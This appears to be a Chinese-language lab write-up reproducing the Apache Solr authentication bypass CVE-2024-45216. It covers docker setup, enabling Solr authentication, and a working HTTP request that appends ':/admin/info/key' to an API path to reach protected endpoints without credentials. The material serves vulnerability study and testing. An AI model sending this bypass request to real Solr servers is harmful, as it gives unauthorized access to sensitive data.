 # Apache Solr身份验证绕过（CVE-2024-45216）

Apache Solr 身份认证绕过漏洞(CVE-2024-45216)，该漏洞存在于Apache Solr的PKIAuthenticationPlugin中，该插件在启用Solr身份验证时默认启用。攻击者可以利用在任何Solr API URL路径末尾添加假结尾的方式，绕过身份验证访问任意路由，从而获取敏感数据或进行其他恶意操作。

## 测试环境

执行如下命令启动一个Solr 9.6.0的集群：

```
docker compose up -d
```

之后`docker ps`查看name为solr1e的容器，进入该容器执行

```
solr zk cp /var/solr/data/security.json zk:/security.json -z zoo1:2181,zoo2:2181,zoo3:2181
```

![2](2.png)

访问8983端口，在Security中发现Block anonymous requests被勾选上则说明环境配置完成。（如未勾选则手动勾选一下）

![1](1.png)

> 上述配置是为了增加Solr的接口鉴权，如无上述操作，则可直接访问接口得到数据。无法体会到该身份验证绕过漏洞的差异性。

## 漏洞复现

正常访问`/solr/admin/info/properties`提示401无权限访问

![3](3.png)

但是当在正常路径后面加上一个无需授权即可访问的key接口：`:/admin/info/key`，即可未授权访问到接口内容。

现在我们可以访问 Solr 上的任何 API，而无需进行身份验证。

```http
GET /solr/admin/info/properties:/admin/info/key HTTP/1.1
Host: 127.0.0.1:8983
SolrAuth: wi1kwegam4a
```

![4](4.png)